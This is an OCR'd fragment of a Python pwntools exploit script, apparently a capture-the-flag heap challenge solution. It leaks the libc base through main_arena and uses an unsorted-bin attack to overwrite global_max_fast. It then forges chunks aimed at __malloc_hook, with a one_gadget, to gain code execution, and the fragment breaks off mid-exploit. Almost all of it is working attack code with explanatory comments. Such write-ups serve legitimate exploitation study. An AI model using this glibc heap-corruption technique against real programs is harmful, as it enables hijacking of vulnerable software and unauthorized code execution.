 ```python
add(0x100,'B'*0x100)#1
#gdb.attach(p)


show(4)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']
one_gadget = libc_base + 0xe9415
#one_gadget=libc_base+0xf02a4
#global_max_fast=libc_base+0x3c67f8
global_max_fast = main_arena +0x23e0
delete(1)

#gdb.attach(p)
#re arrange the heap structure
add(0x2a0,'a'*0x108+p64(0xc1)+'a'*0xb8+p64(0x91)+'a'*0x88+p64(0x51)+'\n')#1
#split into 3 chunks

delete(1)
#gdb.attach(p)
#add 1 to the unsortedbin
add(0x300,'a\n')#1
#gdb.attach(p)
#now 1 in smallbins
#new chunk from top chunk
#main purpose is to add 1 to smallbin
#because modify maxfast via unsortedbin attack will make
#unsorted bin cant be used any more
delete(4)
#gdb.attach(p)
#add 4 to th unsortedbin

#unsortedbin attack, make fast max = unsorted bin's addr 
add(0x2a0,'a'*0x108+p64(0xc0)+p64(global_max_fast-0x10)+p64(global_max_fast-0x10)+'a'*0xa0+p64(0xc0)+p64(0x91)+'\n')#2
#gdb.attach(p)
add(0xb0,'a\n')#4
#gdb.attach(p)
#raw_input()
#now that since 4 is realloced,
#so that the fake fd,bk now inseted into unsortedbin
#their fd,bk now is unsortedbin's addr
#it is excatly where global_max_fast lies in
#p &global_max_fast
#its a very large number
delete(4)
#hijack topchunk
#insert into fastbin
delete(2)

#insert  the second large chunk,
#which contains our fake chunk structure
#main purpose is to re edit its content
add(0x2a0,'a'*0x108+p64(0xc1)+p64(malloc_hook-0x10)+'\n')#2
```